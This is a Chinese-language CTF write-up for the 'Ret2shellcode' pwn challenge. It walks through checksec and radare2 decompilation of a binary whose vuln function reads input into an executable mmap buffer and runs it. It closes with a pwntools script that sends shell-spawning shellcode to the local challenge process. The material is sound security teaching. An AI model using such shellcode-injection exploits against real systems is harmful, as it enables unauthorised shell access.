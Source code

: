 ```yaml
---
title: Ret2shellcode
author: 13m0n4de
difficulty: Easy
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/ret2shellcode:latest
port: 70
writeup_author: pn1fg
tags:
  - ret2shellcode
reference:
---
```


# Ret2shellcode

## 题目描述

## 题目解析

在开始之前，先解释一下什么是 shellcode：

- shellcode 是一段用于完成特定功能的汇编代码
- 在 PWN 题目中，通常用于获取目标系统的 shell
- 要执行 shellcode，需要对应内存区域具有可执行权限

### 查看文件信息

查看文件类型：

```
$ file ret2shellcode
ret2shellcode: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eafe942a43461467245654d327453a2eaddd0f58, for GNU/Linux 3.2.0, not stripped
```

64位 ELF 文件，动态链接，没有去除符号

查看保护机制：

```
$ checksec --file=ret2shellcode
RELRO           Partial RELRO
STACK CANARY    No canary found
NX              NX enabled
PIE             No PIE
RPATH           No RPATH
RUNPATH	        No RUNPATH
Symbols		    73 Symbols
FORTIFY	        No
Fortified	    0
Fortifiable	    1
FILE            ret2shellcode
```

NX 保护（堆栈不可执行）。

### 分析漏洞成因

我们这里需要使用工具 Radare2 对文件进行反汇编，将为二进制数据转换为可读的汇编指令，这样才方便于我们去分析程序执行流程，寻找漏洞。

首先第一步就是寻找程序入口，可以使用 `afl` 命令列出所有函数

```
$ r2 -AA ret2shellcode
[0x004010d0]> afl
0x00401080    1     11 sym.imp.putchar
0x00401090    1     11 sym.imp.puts
0x004010a0    1     11 sym.imp.mmap
0x004010b0    1     11 sym.imp.read
0x004010c0    1     11 sym.imp.setvbuf
0x004010d0    1     46 entry0
0x00401110    4     31 sym.deregister_tm_clones
0x00401140    4     49 sym.register_tm_clones
0x00401180    3     32 sym.__do_global_dtors_aux
0x004011b0    1      6 sym.frame_dummy
0x00401380    1      5 sym.__libc_csu_fini
0x00401276    1     96 sym.vuln
0x00401388    1     13 sym._fini
0x0040121b    1     91 sym.banner
0x004011b6    1    101 sym.init
0x00401310    4    101 sym.__libc_csu_init
0x00401100    1      5 sym._dl_relocate_static_pie
0x004012d6    1     45 main
0x00401000    3     27 sym._init
0x00401030    2     28 fcn.00401030
0x00401040    1     15 fcn.00401040
0x00401050    1     15 fcn.00401050
0x00401060    1     15 fcn.00401060
0x00401070    1     15 fcn.00401070
```

反编译 `main` 函数

```c
[0x004010d0]> s main
[0x004012d6]> pdg

ulong main(void)

{
    ulong uStack_10;

    uStack_10 = 0x4012e8;
    sym.init();
    *(*0x20 + -0x10) = 0x4012f2;
    sym.banner();
    *(*0x20 + -8 + -8) = 0x4012fc;
    sym.vuln();
    return 0;
}
```

程序调用了三个函数，`init`、`banner`、`vuln`，这里我们领同学们每一个函数都过一遍，后面的题解中没有这么详细了。

反编译 `init` 函数：

```c
[0x004012d6]> s sym.init
[0x004011b6]> pdg

int init()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}
```

程序将标准输入、标准输出和标准错误的缓冲模式全部设置为无缓冲，确保 I/O 操作立即生效，其实就是一个初始化函数。

反编译 `banner` 函数：

```c
int banner()
{
  puts(" ___  _  _  __  __  ___  ____  ____ ");
  puts("/ __)( \\/ )(  )(  )/ __)(_  _)( ___)");
  puts("\\__ \\ \\  /  )(__)(( (__   )(   )__) ");
  puts("(___/  \\/  (______)\\___) (__) (__) ");
  putchar(10);
  puts("Welcome to the SVUCTF HELLOWORLD 2024!");
  return putchar(10);

```

程序利用 `puts` 函数打印了一些 ASCII 艺术字。

反编译 `vuln` 函数

```c
[0x0040121b]> s sym.vuln
[0x00401276]> pdg

__int64 vuln()
{
  void *buf; // [rsp+8h] [rbp-8h]

  buf = mmap(0LL, 0x100uLL, 7, 34, -1, 0LL);
  puts("Send me shellcode:");
  read(0, buf, 0x100uLL);
  return ((__int64 (*)(void))buf)();
}
```

程序的关键在于此处的 `mmap` 调用和跳转执行：

- 申请了一块大小为 0x100 的内存
- 内存权限设置为可读、可写、可执行 (`PROT_READ | PROT_WRITE | PROT_EXEC`)
- 直接将用户输入读入该内存区域
- 最后跳转执行这段代码

所以本题大致的攻击思路就是，通过 `read` 函数我们将一段 shellcode 写入内存中，程序会跳转执行它从而拿到 shell。

### 编写利用程序

使用 pwntools 中的 shellcraft 模块生成 shellcode 汇编代码，并使用 `asm` 函数将其编译为机器码。

[exp.py](./writeup/exp.py):

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("../attachments/ret2shellcode")

shellcode = asm(shellcraft.sh())

io.sendafter(b"Send me shellcode:\n", shellcode)

io.interactive()
```
